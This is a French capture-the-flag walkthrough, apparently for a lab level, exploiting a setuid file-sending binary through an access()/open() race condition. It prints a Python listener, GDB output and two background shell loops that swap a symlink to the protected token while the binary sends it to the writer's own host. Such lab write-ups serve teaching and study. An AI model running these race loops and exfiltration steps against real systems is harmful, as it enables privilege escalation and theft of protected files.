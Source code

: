 # Level10

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
	-rw-------  1 flag10  flag10     26 Mar  5  2016 token

On trouve un binaire setuid et un fichier token sans droits pour nous

	$ ./level10
	./level10 file host
	sends file to host if you have access to it

Le programme envoi un fichier vers une adresse à première vue

	$ ./level10 token localhost
	You don't have access to token

On a pas les droits sur token? Ou alors c'est un check manuel dans le code pour "token"

	$ ./level10 .profile localhost
	Connecting to localhost:6969 .. Unable to connect to host localhost

Pas de problemes de droits avec un fichier appartenant à level10

Pour commencer on va faire un petit serveur en python pour récupérer ce qui est envoyé

```python
#! /usr/bin/python3

import socket
import sys

# On prépare la socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Set et bind de l'adresse et du port
server_address = ("192.168.1.22", 6969)
sock.bind(server_address)
print("starting up on %s port %s" % server_address)
sock.listen(1)

# Boucle infinie pour écouter
while True:
	print("waiting for a connection")
	# Accepte les connections
	connection, client_address = sock.accept()
	print("connection from", client_address)
	# Boucle infinie pour récupérer les datas reçues
	while True:
		# Par blocs de 64
		data = connection.recv(64)
		print('received "%s"' % data)
		# Close quand c'est fini
		if len(data) < 1:
			connection.close()
			break
	break

```

On lance notre serveur de notre coté

	./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection

Puis sur la machine on essaye d'envoyer un fichier simple

	$ echo "coucou" > /tmp/coucou

	$ ./level10 /tmp/coucou 192.168.1.22
	Connecting to 192.168.1.22:6969 .. Connected!
	Sending file .. wrote file!

On reçoit bien de notre coté même si c'est pas très propre, ça fera l'affaire

	./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection
	connection from ('192.168.1.31', 42473)
	received "b'.*( )*.\n'"
	received "b'coucou\n'"
	received "b''"

Pour les droits du fichier token, faire un lien ne fonctionne pas, donc c'est pas un check sur le nom, c'est bien un problème de droits

On va devoir chercher un peu plus avec GDB

	$ gdb level10
	$ (gdb) disas main
	...
	0x08048749 <+117>:	call   0x80485e0 <access@plt>
	...
	0x0804889b <+455>:	call   0x80485a0 <open@plt>
	...

On voit un appel à access très tot (surement pour checker les droits du fichier à ouvrir) et le open est fait bien plus loin, après l'ouverture de la socket

Un `man access` nous donne les infos suivantes :

> Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2),risque de créer un trou de sécurité. En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général). Pour cette raison, l'utilisation de cet appel système devrait être évitée.

C'est exactement ce qu'on va faire. Il faut que le `access` soit fait sur un fichier avec les bons droits et le open sur le vrai fichier token

On va créer un fichier tout simple avec les bons droits

	$ echo coucou > /tmp/coucou

Ensuite il nous faudra un fichier /tmp/faketoken qui va etre un lien un coup vers token pour le lire, un coup vers "/tmp/coucou" pour passer les droits. Tout ça très vite pour faire une race condition

On va donc utiliser 2 boucles infinies de création de ces liens

La première pour les liens alternativement. En background pour pouvoir continuer a utiliser le shell

	$ $(while true; do ln -sf /tmp/coucou /tmp/faketoken; ln -sf $(pwd)/token /tmp/faketoken; done)&

Deuxieme boucle infinie avec le programe level10 pour envoyer notre fichier "faketoken" et que ça tombe au bon moment avec l'autre boucle

	$ $(while true; do ./level10 /tmp/faketoken 192.168.1.22; done) &

On lance le serveur de notre côté plusieurs fois et on attends de recevoir le bon fichier

	$ ./server.py
	starting up on 192.168.1.22 port 6969
	waiting for a connection
	connection from ('192.168.1.27', 53723)
	received "b'.*( )*.\n'"
	received "b'XXXXXXXXXXXXXXXXXXXX\n'"
	received "b''"
